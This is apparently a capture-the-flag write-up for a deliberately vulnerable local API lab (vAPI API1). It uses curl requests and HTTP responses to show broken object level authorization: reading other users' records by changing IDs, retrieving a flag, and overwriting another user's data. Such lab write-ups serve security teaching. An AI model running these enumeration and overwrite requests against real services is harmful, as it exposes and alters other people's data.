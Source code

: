 # Broken Object Level Authorization
> You can register yourself as a User , Thats it ....or is there something more?

Note: Insecure Direct Object Reference (IDOR) and Broken Object Level Authorization (BOLA) are the same findings under a different name.

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
```

# Create User
## POST /vapi/api1/user

Create a user.
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\": \"testuser1\",\x0d\x0a    \"name\": \"testname1\",\x0d\x0a    \"course\": \"testcourse1\",\x0d\x0a    \"password\": \"testpass1\"\x0d\x0a}' \
    $'http://localhost/vapi/api1/user'
```

A "201 Created" response should be received after sending the request.
```http
HTTP/1.1 201 Created
Host: localhost
Date: Tue, 25 Jun 2024 18:59:40 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 18:59:40 GMT
Content-Type: application/json

{"username":"testuser1","name":"testname1","course":"testcourse1","id":16}
```

As specified in the Postman Collection, the test script to be executed for the API1 Create User endpoint is used to derive the User ID (id) and the Authentication Token (Authorization-Token) to be updated in the Postman Environment as api1_id and api1_auth respectively.
```js
var jsonData = JSON.parse(responseBody);
var api1_id = jsonData.id;
console.log("API 1 User ID : "+api1_id);
postman.setEnvironmentVariable("api1_id",api1_id);
var reqData = JSON.parse(request.data);
var api1_username=reqData.username;
var api1_password=reqData.password;
var api1_auth=btoa(api1_username+":"+api1_password);
console.log("API 1 Auth : "+api1_auth);
postman.setEnvironmentVariable("api1_auth",api1_auth);
```

We can derive the User ID (id) of our newly created user from the response:
```
16
```

We can derive the Authentication Token (Authorization-Token) of our newly created user:
```bash
echo -n "testuser1:testpass1" | base64
```
```
dGVzdHVzZXIxOnRlc3RwYXNzMQ==
```
- We will need this Authentication Token for the "Get User" endpoint

# Get User
## GET /vapi/api1/user/{api1_id}

Get information of our newly created user, using our own User ID and our own Authorization Token
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/16'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:40:27 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:40:27 GMT
Content-Type: application/json

{"id":16,"username":"testuser1","name":"testname1","course":"testcourse1"}
```

Lets attempt to check if we can access information of other users, using other User IDs, while using our own Authorization Token
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/2'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:43:34 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:43:34 GMT
Content-Type: application/json

{"id":2,"username":"meredithp","name":"Meredith Palmer","course":"The Subtle art of not giving a F***"}
```

Seems like we are able to access other user's data with our own Authorization Token. This is not supposed to happen, and shows that Broken Object Level Authorization (BOLA) exists.

After enumerating, we find the flag with an User ID of 1:
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/1'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:46:18 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:46:18 GMT
Content-Type: application/json

{"id":1,"username":"michaels","name":"Michael Scott","course":"flag{api1_d0cd9be2324cc237235b}"}
```

API1 Flag
```
flag{api1_d0cd9be2324cc237235b}
```

# Update User
## PUT /vapi/api1/user/{api1_id}

It seems like we can also access information of other users, using other User IDs, while using our own Authorization Token with the Update User endpoint.
```bash
curl --path-as-is -i -s -k -X $'PUT' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/4'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:55:28 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:55:28 GMT
Content-Type: application/json

{"id":4,"username":"jimhalp","name":"Jim Halpert","course":"Art of Pranks"}
```

Data of other users can be updated while using our own Authorization Token.
```
curl --path-as-is -i -s -k -X $'PUT' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a  \"username\": \"updated_user\",\x0d\x0a  \"name\": \"updated_name\",\x0d\x0a  \"course\": \"updated_course\",\x0d\x0a  \"password\": \"updated_pass\"\x0d\x0a}' \
    $'http://localhost/vapi/api1/user/4'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:59:24 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:59:24 GMT
Content-Type: application/json

{"id":4,"username":"updated_user","name":"updated_name","course":"updated_course"}
```
- Observe that the User ID of "4" used to have the name "Jim Halpert" but has been updated to "updated_name".

References:
https://www.traceable.ai/blog-post/a-deep-dive-on-the-most-critical-api-vulnerability-bola-broken-object-level-authorization
https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/
https://owasp.org/API-Security/editions/2019/en/0xa1-broken-object-level-authorization/
